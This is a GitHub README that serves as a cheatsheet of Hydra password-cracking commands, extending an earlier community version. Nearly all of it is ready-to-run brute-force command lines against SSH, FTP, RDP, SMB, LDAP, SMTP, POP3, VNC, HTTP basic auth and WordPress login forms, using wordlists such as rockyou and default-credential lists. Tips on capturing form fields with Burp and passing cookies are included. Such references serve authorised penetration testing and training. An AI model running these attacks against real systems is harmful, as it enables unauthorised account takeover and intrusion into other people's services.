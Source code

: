 # Hydra Cheatsheet

Hydra Password Cracking Cheetsheet, the [Original](https://github.com/frizb/Hydra-Cheatsheet), this one is four years old so I made some additions.

Always consider adding the `-e`
```bash
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
```

- Using burp to capture a request and copying and pasting the form names into the command line avoid silly mistakes that are time costly
```bash
# Command 								Description:
hydra -P password-file.txt -v $ip snmp 					# Hydra brute force against SNMP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp 	# Hydra FTP known user and rockyou password list

# Default FTP credentials
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
 
hydra -v -V -u -L users.txt -P passwords.txt -t 1 $ip ssh 		# Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh 			# Hydra SSH using a known password and a username list
hydra $ip -s 22 ssh -l -P big_wordlist.txt 				# Hydra SSH Against Known username on port 22
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V 	# Hydra POP3 Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V 			# Hydra SMTP Brute Force
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin 		# Hydra attack http get 401 login with a dictionary
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://$ip 		# Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P rockyou.txt $ip smb 		# Hydra brute force SMB user with rockyou

# Non Usernames
# redis, adam6500, cisco, oracle-listener, s7-300, snmp and vnc modules are only using the -p or -P option, not login (-l, -L) or colon file (-C)
hydra -P /usr/share/wordlists/rockyou.txt vnc://$ip

# Hydra HTTP Basic Authentication Brute Force
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip -s $port -f http-get / 

# Hydra brute force a Wordpress admin login
hydra -l username -P wordlist.txt -f 10.10.71.232 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" # READ THE SOURCE
hydra -l admin -P ./passwordlist.txt $ip -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 

hydra -L usernames.txt -P passwords.txt $ip smb -V -f 			# SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f 			# LDAP Brute Forcing

# Need a cookie

...F=incorrect:H=Cookie:...
```


## References

[Frizb's Hydra Cheatsheet(Original)](https://github.com/frizb/Hydra-Cheatsheet)